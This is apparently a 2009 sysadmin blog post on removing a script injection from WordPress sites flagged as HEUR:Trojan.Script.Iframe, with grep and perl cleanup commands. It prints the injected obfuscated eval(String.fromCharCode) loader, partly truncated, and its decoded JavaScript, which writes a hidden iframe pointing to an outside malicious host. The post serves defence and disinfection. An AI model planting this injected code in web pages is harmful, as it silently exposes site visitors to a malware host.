 ```yaml
---
date: '2009-03-22 12:25:15'
layout: post
slug: heurtrojanscriptiframe
status: publish
title: HEUR:Trojan.Script.Iframe
wordpress_id: '432'
categories:
- News
- Security
tags:
- virus
---
```


One of my friend asked for help about virus appearing on his sites (mostly WordPress sites).  I checked it out and my Kaspersky Internet Security blocked the pages from loading, so i downloaded the files manually and scanned html with Kaspersky to determine affected files.


![virus2](http://linuxsysadminblog.com/wp-content/uploads/2009/03/virus2-220x300.gif)



I noticed that the affected files were PHP and HTML only and if you compare the code of the original WordPress files with the infected one you will see the difference.  Below are sample added codes/virus:



HTML files: `<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>`
PHP files:  `<?php echo '<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>'; ?>`

**What it does**
I'm not a virus expert and I'm curios on what this portion of code does so i looked at it.  In our case the resulting text add this portion of code to the html or php files:

`var fggge3="si";
var w345="pl";
var re6="ank.";
var rr="com";
var a="if";
var s="tt";
document.write('<'+a+'rame src="h'+s+'p://'+fggge3+''+w345+''+re6+''+rr+'/'+'qqp/'+''+''+'" style="d'+'isplay:n'+'one">');
var t=00001217
`

and you can see it tries to load an iframe:

`<iframe src=http://siplank.com/qqp/ style=display:none>`

**Virus Removal**
You can remove the virus by just deleting the code (sample above) on the affected files.  If you need to cleanup hundred of infected files (in our case more than 800) you can do the following:

- Get the list of infected files.  You can use grep to search for them
`grep -Z -R "eval(String.fromCharCode(118,97,114" /path/to/site/* >> affected_file_list.txt`
- Delete the codes by using perl/sed commands.  Repeat the commands for every files.
`perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  /path/to/affected/file.htm
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"  /path/to/affected/file.php`

Or create a bash/shell script to do the cleanup at once:
`
while read line
do
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  $line
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"   $line
done < affected_file_list.txt
`

That's all.

I don't know how the attacker gained access to the files and inserted the codes because the file permissions are ok - maybe they gain ftp access.
